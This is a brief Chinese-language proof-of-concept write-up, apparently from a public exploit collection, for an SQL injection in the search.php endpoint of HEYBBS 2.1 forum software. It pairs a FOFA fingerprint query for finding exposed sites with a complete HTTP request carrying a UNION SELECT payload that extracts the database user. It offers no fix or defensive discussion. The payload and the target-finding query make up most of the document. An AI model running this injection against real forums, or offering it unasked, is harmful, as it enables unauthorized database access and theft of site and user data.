 # HEYBBS2.1论坛search.php存在sql注入漏洞.md

HEYBBS2.1论坛在search.php接口下存在sql注入漏洞

## fofa

```javascript
Body="微社区, 微论坛, 微博客"
```

## poc

```javascript
GET /search.php?sosuo=qq%27%20UNION%20ALL%20SELECT%20NULL,NULL,NULL,CONCAT(0xc,user(),0xc),NULL,NULL,NULL,NULL,NULL,NULL--%20- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Referer: https://fofa.info/
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
Pragma: no-cache
Cache-Control: no-cache

```
